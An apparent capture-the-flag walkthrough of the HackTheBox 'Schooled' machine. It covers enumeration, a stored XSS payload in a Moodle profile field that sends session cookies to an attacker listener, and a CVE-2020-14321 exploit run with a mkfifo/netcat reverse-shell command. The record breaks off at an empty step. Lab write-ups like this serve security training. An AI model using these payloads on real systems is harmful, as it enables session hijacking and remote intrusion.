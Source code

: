 1. Connect the box, get IP.
2. Run nmap:
    ```bash
    nmap -Pn -A 10.10.10.234
    ```
    ![](/HackTheBox/images/schooled1.png)
3. In the bottom of site, we see 'schooled.htb', add that to /etc/hosts.
    ![](/HackTheBox/images/schooled2.png)
4. Run gobuster vhost for subdomain search:
    ```bash
    gobuster vhost -u schooled.htb -w /root/tools/dnscan/subdomains-500.txt -z -t 100 
    ```
    ![](/HackTheBox/images/schooled3.png)
    Found moodle.schooled.htb, add that to /etc/hosts.
5. Open moodle.schooled.htb.
6. Create account, login, join Mathematics course, check Announcements.
    ![](/HackTheBox/images/schooled4.png)
7. Go to Edit profile, see the MoodleNet field.
    Type in 
    ```html
    "><h1>test</h1>
    ```
    and Update profile, you see this:
    ![](/HackTheBox/images/schooled5.png)
    Hence, the site has XSS (Cross-Site Scripting)
8. Run python server on your machine:
    ```bash
    python3 -m http.server 4443
    ```
9. Type this in MoodleNet area:
    ```html
    <script>new Image().src="http://10.10.14.7:4443?c="+document.cookie;</script>
    ```
    Wait for a while.
10. Teacher's cookie comes in the python server. Replace that and you are the teacher now.
    ![](/HackTheBox/images/schooled6.png)
    ![](/HackTheBox/images/schooled7.png)
11. Use this CVE: [CVE-2020-14321](https://github.com/lanzt/CVE-2020-14321).  
    Run nc server:
    ```bash
    nc -lnvp 1234
    ```
    Run this command:
    ```bash
    python3 CVE-2020-14321_RCE.py http://moodle.schooled.htb/moodle/ --cookie b2vg6doaecljo3tdro0apnbht2 --cdomain moodle.schooled.htb --cpath '/moodle/' -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 1234 >/tmp/f'
    ```
    We get reverse shell:
    ![](/HackTheBox/images/schooled8.png)
12. Use nc to transfer FreeBSD socat and stabilize shell.
13. 

